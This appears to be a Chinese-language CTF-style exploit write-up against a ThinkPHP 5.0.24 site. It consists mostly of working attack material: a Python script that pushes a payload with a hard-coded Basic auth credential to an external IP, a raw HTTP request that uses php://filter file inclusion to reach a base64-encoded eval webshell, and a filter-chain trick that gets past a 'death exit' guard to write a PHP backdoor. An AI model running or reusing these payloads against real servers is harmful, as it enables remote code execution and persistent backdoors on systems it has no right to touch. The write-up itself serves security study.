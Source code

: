 写文件到/tmp
```python=
import requests
import hashlib
payload=requests.get("http://127.0.0.1/cms/thinkphp/5.0.24/tp5/public/test.php").text.strip()
burp0_url = "http://8.208.102.48:80/public/index.php"
params={
    "s":"/index/Index/hello",
    "s3cr3tk3y":payload
}
burp0_headers = {"Authorization": "Basic QWRtaW4xOTY0NzUyOkRzYVBQUFAhQCNhbXNwZTEyMjE=", "Connection": "close"}
res=requests.get(burp0_url, headers=burp0_headers ,params=params)
print(res.text)
print(requests.get("http://8.208.102.48:80/public/log.txt").text)

```


```
POST /public/nationalsb/login.php HTTP/1.1
Host: 8.208.102.48
Authorization: Basic QWRtaW4xOTY0NzUyOkRzYVBQUFAhQCNhbXNwZTEyMjE=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 155

file=php://filter/read=convert.base64-encode/resource=/tmp/PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8%2b743f45ea3d60a1190e3f723595050ca2.php&1=phpinfo();&1=phpinfo();
```

写到文件里的内容
```
<?php
//000000000000
 exit();?>
s:163:"php://filter/write=convert.base64-encode/resource=../../../../../../../../../../../../../../../../tmp/filenamebfe3467e649d6d158c51b5b5494ca5a2.php";
```
这里 https://www.leavesongs.com/PENETRATION/php-filter-magic.html 里面的方法已经不管用了，我们需要自己想出其他办法


这里我们用`php://filter/write=convert.base64-encode|string.rot13|convert.base64-decode/resource=`来绕过死亡exit
```php
    $backdoor = '<?php eval($_POST[1]);?>';
    $x = str_rot13(base64_encode($payload));
    $payload = base64_decode(str_rot13(base64_encode($backdoor)));
    assert(base64_decode($x) === $backdoor);
```
